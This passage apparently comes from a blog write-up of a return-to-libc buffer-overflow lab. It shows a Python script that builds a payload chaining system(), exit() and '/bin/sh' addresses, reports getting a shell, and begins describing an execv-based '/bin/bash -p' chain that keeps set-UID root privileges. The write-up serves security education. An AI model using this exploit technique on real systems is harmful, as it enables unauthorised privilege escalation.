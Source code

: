 ![task-3-a](https://github.com/iukadike/blog/assets/58455326/941126df-35e6-408e-8ddd-89596b295ede)


We can then plug in the necessary values to produce our exploit.
```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# $ebp - &buffer = 22

X = 22 + 4
system_addr = 0xf7e12420   # The address of system()
content[X:X+4] = (system_addr).to_bytes(4,byteorder='little')

Y = X + 4
exit_addr = 0xf7e04f80     # The address of exit()
content[Y:Y+4] = (exit_addr).to_bytes(4,byteorder='little')

Z = Y + 4
sh_addr = 0xf7f5c352       # The address of "/bin/sh"
content[Z:Z+4] = (sh_addr).to_bytes(4,byteorder='little')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

When we run the program, the exploit executes successfully and we obtain a shell

![task-3-b](https://github.com/iukadike/blog/assets/58455326/a4049747-9eef-48fa-a490-2488dfcd5100)


<br>

### Defeat Shell’s countermeasure

Though our vulnerable program has a set-UID privilege, the shell that spawns does not have root privileges. This means that the shell drops the Set-UID privilege. However, if the shell is spawned with the `-p` 
option, the shell retains the set-UID privilege.

Because `system()` function does not provide a way for us to supply arguments, we have to make use of any other function that allows such. One of these functions is the `execv()` function. The function takes two arguments: one is the address of the command, and the second is the address of the argument array for the command. `execv()` is defined as `execv(const char *pathname, char *const argv[])`

For example, if we want to invoke "/bin/bash -p" using execv, we need to set up the following:
pathname = address of "/bin/bash"
argv[0] = address of "/bin/bash"
argv[1] = address of "-p"
argv[2] = NULL (i.e., 4 bytes of zero).
